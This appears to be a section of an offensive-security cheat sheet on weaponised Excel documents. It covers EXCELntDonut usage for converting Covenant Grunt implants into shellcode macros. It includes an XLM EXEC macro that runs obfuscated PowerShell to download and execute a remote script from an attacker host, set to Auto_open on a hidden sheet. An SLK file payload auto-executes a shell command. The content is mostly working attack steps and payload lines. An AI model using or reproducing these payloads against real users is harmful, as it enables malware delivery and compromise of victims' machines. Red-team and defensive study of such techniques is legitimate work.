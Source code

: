 :warning: If you're using the obfuscate flag, after the Text-to-columns operation, your macros won't start in A1. Instead, they'll start at least 100 columns to the right. Scroll horizontally until you see the first cell of text. Let's say that cell is HJ1. If that's the case, then complete steps 6-7 substituting HJ1 for A1

```ps1
git clone https://github.com/FortyNorthSecurity/EXCELntDonut

-f path to file containing your C# source code (exe or dll)
-c ClassName where method that you want to call lives (dll)
-m Method containing your executable payload (dll)
-r References needed to compile your C# code (ex: -r 'System.Management')
-o output filename
--sandbox Perform basic sandbox checks. 
--obfuscate Perform basic macro obfuscation. 

# Fork
git clone https://github.com/d-sec-net/EXCELntDonut/blob/master/EXCELntDonut/drive.py
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -platform:x64 -out:GruntHttpX64.exe C:\Users\User\Desktop\covenSource.cs 
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -platform:x86 -out:GruntHttpX86.exe C:\Users\User\Desktop\covenSource.cs
donut.exe -a1 -o GruntHttpx86.bin GruntHttpX86.exe
donut.exe -a2 -o GruntHttpx64.bin GruntHttpX64.exe
usage: drive.py [-h] --x64bin X64BIN --x86bin X86BIN [-o OUTPUTFILE] [--sandbox] [--obfuscate]
python3 drive.py --x64bin GruntHttpx64.bin --x86bin GruntHttpx86.bin
```

XLM: https://github.com/Synzack/synzack.github.io/blob/3dd471d4f15db9e82c20e2f1391a7a598b456855/_posts/2020-05-25-Weaponizing-28-Year-Old-XLM-Macros.md


### XLM Excel 4.0 - EXEC

1. Right Click to the current sheet
2. Insert a **Macro IntL MS Excel 4.0**
3. Add the `EXEC` macro
    ```powershell
    =EXEC("poWerShell IEX(nEw-oBject nEt.webclient).DownloAdStRiNg('http://10.10.10.10:80/update.ps1')")
    =halt()
    ```
4. Rename cell to **Auto_open**
5. Hide your macro worksheet by a right mouse click on the sheet name **Macro1** and selecting **Hide**


### SLK - EXEC

```ps1
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
